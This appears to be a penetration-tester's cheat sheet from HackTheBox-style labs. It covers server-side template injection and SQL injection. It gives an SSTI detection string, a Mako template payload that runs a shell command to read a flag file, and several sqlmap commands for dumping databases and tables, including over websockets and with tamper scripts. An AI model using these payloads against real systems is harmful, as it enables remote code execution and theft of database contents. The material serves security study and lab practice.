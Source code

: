 ## How to identify the Vulnerability SSTI?
```
${{<%[%’”}}%\.
```
https://medium.com/@aslam.mahimkar/hackthebox-busqueda-writeup-c4ae57a89fd4

### Mako
#### RCE
``` shell
${self.module.cache.util.os.popen("cat /flag.txt").read()}
```

# SQL Injection
## PayloadsAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

### Insert Statement injection using ON DUPLICATE KEY UPDATE
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#insert-statement---on-duplicate-key-update

## sqlmap
### Basic Example
```shell
sqlmap -r req.txt --dbs --batch --threads 5
```
`--dbs`: get database list.
`--technique=B`: Boolean-based blind SQL Injection

The type for techniques is described:
https://github.com/sqlmapproject/sqlmap/wiki/Techniques

For websocket, sqlmap can inject SQL logic:
```shell
sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --dbs --threads 10 -
level 5 --risk 3 --batch
```
`--dbs`: enumerate database list

### second request
After sending the tampered request, send the second request to check the response.
```shell
sqlmap -r req.txt --second-req=secreq.txt --dbs --threads 5 --tamper=space2comment --batch
```

'tamper' is explained below:
[Tamper](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap#tamper)

### enumerate tables
```shell
sqlmap -r req.txt --second-req=secreq.txt --threads 5 --tamper=space2comment --tables --batch -D database_name
```
`-D`: database name
